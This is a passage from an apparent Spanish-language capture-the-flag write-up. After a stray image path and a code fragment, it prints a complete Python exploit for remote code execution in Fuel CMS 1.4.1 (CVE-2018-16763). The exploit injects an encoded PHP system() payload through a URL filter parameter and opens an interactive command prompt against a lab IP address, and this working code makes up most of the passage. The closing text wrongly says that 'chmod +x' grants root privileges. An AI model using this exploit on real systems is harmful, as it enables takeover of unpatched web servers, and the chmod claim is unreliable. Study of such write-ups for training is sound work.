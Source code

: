 ```python
    htmlcharset = r.text.find(html)
    begin = r.text[0:20]
    dup = find_nth_overlapping(r.text,begin,2)  
    print r.text[0:dup]
```

Antes de emplearlo, procedemos a realizar las modificaciones necesarias para que funcione, quedando de la siguiente manera:

```python
# Exploit Title: fuel CMS 1.4.1 - Remote Code Execution (1)

# Date: 2019-07-19

# Exploit Author: 0xd0ff9

# Vendor Homepage: https://www.getfuelcms.com/

# Software Link: https://github.com/daylightstudio/FUEL-CMS/releases/tag/1.4.1

# Version: <= 1.4.1

# Tested on: Ubuntu - Apache2 - php5

# CVE : CVE-2018-16763

import requests

import urllib

url = "http://10.201.100.131"

def find_nth_overlapping(haystack, needle, n):
    start = haystack.find(needle)
    while start >= 0 and n > 1:
        start = haystack.find(needle, start+1)
        n -= 1
    return start

while 1:
    xxxx = raw_input('cmd:')
    url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.quote(xxxx)+"%27%29%2b%27"
    r = requests.get(url)
    html = "<!DOCTYPE html>"
    htmlcharset = r.text.find(html)
    begin = r.text[0:20]
    dup = find_nth_overlapping(r.text,begin,2)  
    print r.text[0:dup]
```

Una vez que ya fue adaptado el exploit, procedemos a darle privilegios root con **chmod +x 47138.py**, una vez realizado esto procedemos a ejecutarlo, donde se va a quedar a la espera de lo que hagamos.
